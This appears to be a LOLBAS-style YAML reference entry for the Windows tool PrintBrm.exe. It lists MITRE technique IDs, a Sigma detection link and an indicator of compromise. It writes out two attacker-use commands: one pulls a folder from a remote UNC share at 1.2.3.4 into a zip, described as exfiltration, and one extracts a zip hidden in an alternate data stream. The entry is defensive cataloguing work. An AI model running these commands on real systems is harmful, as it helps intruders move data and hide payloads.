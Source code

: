 ```yaml
---
Name: PrintBrm.exe
Description: Printer Migration Command-Line Tool
Author: 'Elliot Killick'
Created: 2021-06-21
Commands:
  - Command: PrintBrm -b -d \\1.2.3.4\share\example_folder -f C:\Users\user\Desktop\new.zip
    Description: Create a ZIP file from a folder in a remote drive
    Usecase: Exfiltrate the contents of a remote folder on a UNC share into a zip file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: PrintBrm -r -f C:\Users\user\Desktop\data.txt:hidden.zip -d C:\Users\user\Desktop\new_folder
    Description: Extract the contents of a ZIP file stored in an Alternate Data Stream (ADS) and store it in a folder
    Usecase: Decompress and extract a ZIP file stored on an alternate data stream to a new folder
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\spool\tools\PrintBrm.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/35a7244c62820fbc5a832e50b1e224ac3a1935da/rules/windows/process_creation/proc_creation_win_lolbin_printbrm.yml
  - IOC: PrintBrm.exe should not be run on a normal workstation
Resources:
  - Link: https://twitter.com/elliotkillick/status/1404117015447670800
Acknowledgement:
  - Person: Elliot Killick
    Handle: '@elliotkillick'
---
```

